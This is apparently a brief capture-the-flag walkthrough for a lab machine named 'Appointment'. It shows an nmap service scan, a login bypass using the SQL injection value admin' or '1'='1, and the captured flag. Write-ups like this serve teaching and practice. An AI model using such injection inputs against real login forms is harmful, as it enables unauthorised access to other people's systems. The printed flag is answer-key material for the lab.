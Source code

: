 # CTF Walkthrough: Appointment

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** SQL Injection     
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV 10.129.74.183`
        - Output:
            ```
            PORT   STATE SERVICE VERSION
            80/tcp open  http    Apache httpd 2.4.38 ((Debian))
            ```

2. SQL inject
    - Username: admin' or '1'='1

3. Get flag
    - Flag: e3d0796d002a446c0e622226f42e9672
